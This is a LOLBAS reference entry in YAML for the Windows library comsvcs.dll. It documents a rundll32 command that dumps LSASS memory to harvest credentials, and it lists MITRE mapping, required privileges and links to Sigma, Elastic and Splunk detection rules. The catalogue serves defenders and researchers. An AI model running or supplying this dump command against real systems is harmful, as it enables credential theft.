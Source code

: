 ```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author: LOLBAS Team
Created: 2019-08-30
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump [LSASS_PID] dump.bin full
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/1ff5e226ad8bed34916c16ccc77ba281ca3203ae/rules/windows/process_creation/win_process_dump_rundll32_comsvcs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b81839e3ce507df925d6e583e569e1ac3a3894ab/rules/windows/process_access/sysmon_lsass_dump_comsvcs_dll.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_comsvcs_procdump.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/dump_lsass_via_comsvcs_dll.yml
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
    Handle:
---
```

